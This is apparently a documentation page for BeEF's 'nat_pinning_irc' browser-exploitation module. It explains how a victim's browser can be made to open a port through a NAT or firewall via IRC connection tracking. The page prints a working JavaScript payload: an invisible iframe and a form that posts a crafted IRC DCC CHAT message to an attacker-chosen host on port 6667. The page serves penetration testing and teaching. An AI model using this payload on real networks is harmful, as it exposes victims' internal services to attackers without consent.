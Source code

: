 ## Summary

* **Objective**: Use the IRC protocol to open a port behind NAT devices
* **Authors**: Bart Leppens
* **Browsers**: Firefox

* [Code](https://github.com/beefproject/beef/tree/master/modules/network/nat_pinning_irc)

## Internal Working

The firewall/NAT-device must support IRC connection tracking. BeEF will automatically bind a socket on port 6667 (IRC). Then you can connect to the victims public IP on that port.

```js
var myIframe = beef.dom.createInvisibleIframe();
var myForm = document.createElement("form");
var action = "http://" + connectto + ":6667/"

myForm.setAttribute("name", "data");
myForm.setAttribute("method", "post");
//it must be multipart/form-data so the message appears on separate line
myForm.setAttribute("enctype", "multipart/form-data");
myForm.setAttribute("action", action);


//create message, refer Samy Kamkar (http://samy.pl/natpin/)
x = String.fromCharCode(1);
var s = 'PRIVMSG beef :'+x+'DCC CHAT beef '+dot2dec(privateip)+' '+privateport+x+"\n";

```


## References

* [Opening closed ports on NAT device and bypassing stateful firewalls with BeEF , BeEF blog](http://blog.beefproject.com/2012/07/opening-closed-ports-on-nat-device-and.html)
* [NAT Pinning: Penetrating routers and firewalls from a web page](http://samy.pl/natpin/)
* [Video](http://www.youtube.com/watch?v=oDnzTYwo8p4)

## Feedback
